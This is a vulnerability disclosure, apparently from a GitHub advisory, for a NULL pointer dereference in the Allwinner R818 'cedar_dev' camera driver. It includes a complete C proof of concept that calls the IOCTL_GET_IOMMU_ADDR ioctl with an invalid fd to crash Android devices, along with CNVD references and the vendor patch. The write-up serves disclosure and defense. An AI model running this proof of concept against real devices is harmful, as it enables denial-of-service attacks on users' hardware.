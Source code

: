 ## Background
Allwinner R818 SoC is made for smart speakers with a screen which is a processor for use in Android-based
It integrates quad-core 64-bit CortexTM-A53 CPU and Imagination PowerVR GE8300 GPU to ensure response rapidity and
running smoothness for daily application, such as on-line video, web browsing, and so on

## Description
There is a NULL Pointer Reference in the camera driver "cedar_dev". An third-app could use the ioctl cmd "IOCTL_GET_IOMMU_ADDR"to cause a system crash.

## Affect Versions
Soc: Allwinner R818 
System: R818 Android Q 
SDK Version: V1.0 

## POC
The problem code is as follow:

![image](https://user-images.githubusercontent.com/13774458/129021015-5f952b84-0027-445b-aea6-877f01378364.png)

The param sUserIommuParam are from userspace which could use ioctl cmd "IOCTL_GET_IOMMU_ADDR" to pass to driver. The code do not judge if the pVeIommuBuf->fd are valid and the function dma_buf_get will return Null if the pVeIommuBuf->fd is invalid.

The POC is as follow:
```
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include "cedar_ve.h"

struct VE_PROC_INFO {
    unsigned char   channel_id;
    unsigned int    proc_info_len;
};

struct cedarv_env_infomation_compat {
    unsigned int phymem_start;
    int  phymem_total_size;
    int  address_macc;
};

struct user_iommu_param {
    int             fd;
    unsigned int    iommu_addr;
};

#define DEV_NAME                     "/dev/cedar_dev"

int main(){
    int fd = open(DEV_NAME, O_RDONLY, 0);
    int ret = 0;
    if (fd <= 0) {
        printf("open %s failed \n", DEV_NAME);
        return -1;
    }
        // IOCTL_GET_IOMMU_ADDR
        struct user_iommu_param user_iommu_param;
        user_iommu_param.fd = 0;
        user_iommu_param.iommu_addr = 0xffff;
        ret =  ioctl(fd, IOCTL_GET_IOMMU_ADDR, &user_iommu_param);
        if (ret < 0) {
            printf("IOCTL_GET_IOMMU_ADDR Error!!\n");
            return -1;
        } else {
            printf("IOCTL_GET_IOMMU_ADDR Succeed!!\n");
        }
    return 0;
}

```

The crash log is as follow:
![image](https://user-images.githubusercontent.com/13774458/129021450-f5dc253f-7ca5-436a-a811-39086a667533.png)
![image](https://user-images.githubusercontent.com/13774458/129021466-a58f312a-3bcb-494f-a292-2b8d3cbf8273.png)

Could see the crash is locate in "compat_cedardev_ioctl"

## Patch
The patch of Allwinner is as follow:
![image](https://user-images.githubusercontent.com/13774458/129021613-1a935512-36aa-43e6-a165-3a2e3bb3fc53.png)

## References
https://www.cnvd.org.cn/flaw/show/CNVD-2021-49168
https://vul.wangan.com/a/CNVD-2021-49168
https://www.allwinnertech.com/index.php?c=product&a=index&id=92
